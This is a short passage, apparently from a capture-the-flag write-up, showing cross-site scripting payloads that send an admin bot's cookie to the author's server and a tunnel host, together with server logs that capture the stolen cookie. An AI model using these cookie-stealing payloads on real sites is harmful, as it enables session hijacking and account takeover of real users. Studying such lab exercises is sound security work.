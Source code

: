 This payload fetch a request to my server with the bot cookie:
```js
<script>fetch('https://my-server.com/?c='+encodeURIComponent(document.cookie));</script>
```
After sometime, my server got the request:
```
.
.
.
127.0.0.1 - - [24/Feb/2025 23:03:21] "GET /?c= HTTP/1.1" 200 -
127.0.0.1 - - [24/Feb/2025 23:03:23] "GET /?c= HTTP/1.1" 200 -
127.0.0.1 - - [24/Feb/2025 23:03:23] "GET /?c= HTTP/1.1" 200 -
127.0.0.1 - - [24/Feb/2025 23:04:52] "GET /?c= HTTP/1.1" 200 -
127.0.0.1 - - [24/Feb/2025 23:04:52] "GET /?c=ADMIN_COOKIE=NkI9qe4cdLIO2P7MIsWS8ofD6 HTTP/1.1" 200 -
```

<script>document.location='https://me-searching-newsletters-provision.trycloudflare.com?c='+document.cookie</script>

